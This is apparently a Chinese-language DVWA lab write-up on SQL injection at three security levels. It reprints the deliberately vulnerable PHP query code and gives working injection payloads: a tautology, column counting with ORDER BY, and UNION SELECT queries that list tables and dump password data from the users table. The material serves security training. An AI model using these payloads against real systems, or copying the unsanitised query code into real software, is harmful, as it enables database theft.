 ## SQL Injection 

SQL 注入是客戶端向應用程式輸入數據，透過插入sql查詢語句來進行攻擊
成功的SQL注入攻擊可以從數據庫中讀取敏感數據、修改資料庫數據，對資料庫進行管理操作

### LOW Level 

關鍵SourceCode
```php
 <?php

if(isset( $_REQUEST['Submit'])){
    // Get input
    $id = $_REQUEST['id'];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query) or die('<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>');

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

這個程式碼可以看出，對查詢語句id有完全信任，沒有進行任何過濾。
使用mysqli_fetch_assoc()函式取得資料後輸出。
![alt text](image.png)

輸入 1' or '1' = '1
讓語法變為恆等，秀出所有資料
![alt text](image-1.png)

判斷可控列

    ' or 1 = 1 order by 1 #

井字號代表註釋掉後面語法，order by 列位數
![alt text](image-2.png)
當order by 3 時會報錯，代表有兩列可控

獲取table 全部表名稱

    1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa' #

![alt text](image-3.png)

可以得知table 總共有guestbook、users這兩張表
獲取table欄位名稱

    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users #

![alt text](image-4.png)

取得password 

    1' or 1 = 1 union select group_concat(user_id),group_concat(password) from users #
![alt text](image-5.png)

### Medium Level 
文本框被換成下拉式選單
![alt text](image-6.png)

Source Code 
```php
    <?php

if(isset($_POST['Submit'])){
    // Get input
    $id = $_POST['id'];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
程式碼使用mysql_real_escape_string()保護
只說特殊字串都會被轉義

使用BurpSuite 抓包來修改字段，仍然可以造成攻擊

把資訊寫在抓包id中，進行攻擊。(其餘相同)
![alt text](image-7.png)

### HIGH Level 

輸入值將在另一個頁面輸入，而不是直接GET請求

![alt text](image-8.png)

```php
<?php

if(isset($_SESSION ['id'])){
    // Get input
    $id = $_SESSION['id'];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while($row = mysqli_fetch_assoc($result)){
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```
程式源碼只增加了 LIMIT 1 ，我們仍就可以用#註釋掉
![alt text](image-9.png)
查詢跟提交使用不同頁面顯示，目的是要防止sqlmap
sqlmap在注入過程無法查詢提交頁面上的查詢結果，因此收不到任何反饋，沒辦法更進一步注入



